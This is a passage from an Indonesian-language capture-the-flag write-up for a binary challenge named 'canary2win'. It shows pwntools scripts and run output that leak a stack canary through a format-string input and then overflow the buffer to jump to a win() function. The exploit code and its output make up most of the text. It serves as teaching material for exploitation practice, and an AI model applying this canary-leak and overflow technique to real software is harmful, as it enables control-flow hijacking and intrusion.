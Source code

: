 ```
   print("Payload Canary: ",payload_canary)
   #payload win
   win_payload = pwn.p64(WIN_ADDRESS)
   print("Win Payload: ",win_payload)
   c.sendline(b'A'* 40 + payload_canary + b"A"*0 + win_payload )
   #lihat responsenya
   response = c.recvall()
   print(response)
```
Jangan lupa untuk menambahkan padding pada payload alamat ```win()``` dengan ```p64()```. Karena dari file ```chall.c``` kita tahu bahwa fungsi ```win()``` akan mencetak teks dua kali, kita akan menggunakan ```recvall()``` agar semus teks kita terima.

Ayo kita jalankan!
```
[+] Starting local process './chall': pid 55893
XXX/canary2win.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'\ncanary2win e youkoso~ input wo joudai >//<\n> '
XXX/canary2win.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  c.sendline("%11$lx") #cek pake gdb
f78cc682d8c18900
XXX/canary2win.py:24: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'canary2win e youkoso~ input wo joudai >//<\n> '
Payload Canary:  b'\x00\x89\xc1\xd8\x82\xc6\x8c\xf7'
Win Payload:  b'\x90\x12@\x00\x00\x00\x00\x00'
[+] Receiving all data: Done (84B)
[*] Process './chall' stopped with exit code -6 (SIGABRT) (pid 55893)
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA*** stack smashing detected ***: terminated\n'
```
Kena canary bung. Coba kalau kita jadiin padding=8
```
import pwn

#address fungsi win
WIN_ADDRESS = 0x401290

#buat local connection
with pwn.process("./chall") as c:

#buat remote connection
# with pwn.remote("34.101.174.85",10002) as c:
   #dapetin stack canary-nya
   #tunggu prompt
   print(c.recvuntil("> "))
   #kirim payload
   c.sendline("%11$lx") #cek pake gdb
   #lihat responsenya
   canary_stack = c.recvline().strip().decode()
   print(canary_stack)

   #parse canary
   canary = bytes.fromhex(canary_stack)

   #tunggu prompt lagi
   print(c.recvuntil("> "))
   #kirim payload
   #payload canary
   payload_canary = pwn.p64(int.from_bytes(canary,"big"))
   print("Payload Canary: ",payload_canary)
```